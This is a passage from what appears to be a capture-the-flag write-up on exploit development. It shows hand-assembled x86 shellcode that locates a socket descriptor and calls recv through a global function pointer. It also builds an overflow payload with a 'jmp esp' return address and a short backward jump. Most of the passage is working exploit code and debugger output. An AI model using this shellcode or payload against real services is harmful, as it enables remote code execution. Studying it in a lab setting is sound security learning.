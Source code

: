![image-20220204141100479](https://0xdfimages.gitlab.io/img/image-20220204141100479.png)

The global is at 0x719082ac:

![image-20220204141314037](https://0xdfimages.gitlab.io/img/image-20220204141314037.png)

    
    
    metasm > mov eax, [0x719082ac]
    "\xa1\xac\x82\x90\x71"
    metasm > call eax
    "\xff\xd0"
    

The payload is now:

    
    
    recv_sc = (
            # get socket descriptor in esi
            b"\x54"                   # push esp
            b"\x58"                   # pop eax
            b"\x66\x05\x49\x01"       # add ax, 0x149
            b"\x66\x2d\x01\x01"       # sub ax, 0x101
            b"\x8b\x30"               # mov esi, dword [eax]
    
            # make space on stack
            b"\x83\xec\x64"           # sub esp, 0x64
    
            # push recv args
            b"\x31\xdb"               # xor ebx, ebx
            b"\x53"                   # push ebx, recv flags = 0
            b"\x66\x81\xc3\x04\x04"   # add bx, 0x404
            b"\x53"                   # push ebx, size = 0x404
            b"\x54"                   # push esp
            b"\x5b"                   # pop ebx
            b"\x83\xc3\x64"           # add ebx, 0x64
            b"\x53"                   # push ebx, buffer
            b"\x56"                   # push esi, sock descriptor
    
            # call recv
            b"\xa1\xac\x82\x90\x71"   # mov eax, [0x719082ac]
            b"\xff\xd0"               # call eax 
            )
    
    payload = recv_sc + b"\xCC"*(66-len(recv_sc)) + p32(0x7190239f) + b"\xeb\xb8"
    

I’ll break at the `jmp esp`, and then step through to see where it would be
called, and it looks good:
